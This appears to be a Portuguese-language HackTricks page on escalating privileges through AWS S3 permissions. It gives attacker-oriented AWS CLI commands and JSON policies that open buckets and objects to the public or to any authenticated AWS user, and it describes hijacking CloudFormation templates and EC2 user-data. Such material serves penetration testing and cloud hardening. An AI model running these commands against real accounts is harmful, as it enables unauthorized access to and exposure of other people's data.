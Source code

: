 # AWS - Escalação de Privilégios no S3

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Um invasor com essas permissões em buckets interessantes pode ser capaz de sequestrar recursos e escalar privilégios.

Por exemplo, um invasor com essas **permissões em um bucket de cloudformation** chamado "cf-templates-nohnwfax6a6i-us-east-1" será capaz de sequestrar a implantação. O acesso pode ser concedido com a seguinte política:

```json
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

E o sequestro é possível porque há uma **pequena janela de tempo desde o momento em que o modelo é carregado** no bucket até o momento em que o **modelo é implantado**. Um invasor pode simplesmente criar uma **função lambda** em sua conta que será **acionada quando uma notificação de bucket for enviada**, e **sequestra** o **conteúdo** desse **bucket**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

O módulo Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) pode ser usado para automatizar esse ataque.\
Para mais informações, consulte a pesquisa original: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Essas são as permissões para **obter e fazer upload de objetos no S3**. Vários serviços dentro da AWS (e fora dela) usam o armazenamento S3 para armazenar **arquivos de configuração**.\
Um invasor com **acesso de leitura** a eles pode encontrar **informações sensíveis** neles.\
Um invasor com **acesso de gravação** a eles pode **modificar os dados para abusar de algum serviço e tentar escalar privilégios**.\
Estes são alguns exemplos:

* Se uma instância EC2 estiver armazenando os **dados do usuário em um bucket S3**, um invasor poderia modificá-lo para **executar código arbitrário dentro da instância EC2**.

### `s3:PutBucketPolicy`

Um invasor, que precisa estar **na mesma conta**, senão o erro `The specified method is not allowed will trigger`, com essa permissão será capaz de conceder a si mesmo mais permissões sobre o(s) bucket(s), permitindo-lhe ler, escrever, modificar, excluir e expor buckets.

```bash
# Atualizar a política do bucket
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
## Exemplo de política JSON
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Um invasor pode abusar dessas permissões para **conceder a si mesmo mais acesso** a buckets específicos.\
Observe que o invasor não precisa estar na mesma conta. Além disso, o acesso de gravação

```bash
# Atualizar o ACL do bucket
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

## Exemplo de ACL JSON
## Certifique-se de modificar o displayName e o ID do proprietário de acordo com o ACL do objeto que você recuperou.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Um ACL deve dar a permissão WRITE_ACP para poder colocar um novo ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Um invasor pode abusar dessas permissões para conceder a si mesmo mais acesso a objetos específicos dentro de buckets.

```bash
# Atualizar o ACL do objeto do bucket
aws s3api get-object-acl --bucket <bucekt-name> --key flag 
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

## Exemplo de ACL JSON
## Certifique-se de modificar o displayName e o ID do proprietário de acordo com o ACL do objeto que você recuperou.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Um ACL deve dar a permissão WRITE_ACP para poder colocar um novo ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Um invasor com esses privilégios é esperado para ser capaz de colocar um Acl em uma versão específica do objeto

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última